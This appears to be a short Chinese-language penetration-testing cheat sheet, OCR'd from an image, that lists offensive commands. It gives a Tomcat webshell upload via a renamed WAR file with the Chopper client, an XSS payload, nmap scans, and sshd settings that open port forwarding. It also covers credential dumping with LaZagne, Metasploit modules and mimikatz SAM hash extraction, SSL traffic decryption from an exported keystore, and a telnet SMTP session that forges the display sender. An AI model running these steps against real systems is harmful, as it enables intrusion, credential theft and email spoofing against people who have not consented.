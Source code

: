 打印图片中可打印字符:
kali strings xx.jpg >> images.txt
exiftool.exe xx.jpg

文件写入:
cat xx.txt | tee target.sh 覆盖

ssl证书解密流量:
keytool.exe -list -keystore c:\keystore 输入密钥库口令
密钥库导出证书
keytool.exe -importkeystore -srckeystore keystore -destkeystore xx.p12 -deststoretype PKCS12 -srcalias tomcat
wireshark打开pcap包并导入SSL证书

tomcat getshell:
将jsp马压缩成xx.zip后将其改名为xx.war上传
菜刀直连

主机探测:
nmap -sP IP段
nmap -sS -sV -O IP段

XSS:
" /><svg onload=alert(1)>

SSH流量转发:
vi/etc/ssh/sshd_config
AllowTcpForwarding yes  GatewayPorts yes  TCPKeepAlive yes  PasswordAuthentication yes

win主机信息收集
密码收集:
主机本地存储密码 lazagne.exe all
补丁信息:
msf run post/windows/gather/enum_patches
软件信息:
msf run post/windows/gather/enum_applications
网段探测:
msf run post/windows/gather/arp_scanner RHOSTS=XX.XX.XX.0/24
主机所在域:
msf mimikatz_command -f system::computer
msf mimikatz_command -f samdump::hashes

SMTP服务器中转:
telnet ip 25
HELO hello
mail from:<xx@xx.com>
rcpt to:<yy@yy.com>
data
from:display@cc.com
to:yy@yy.com
subject:test
test
.
quit
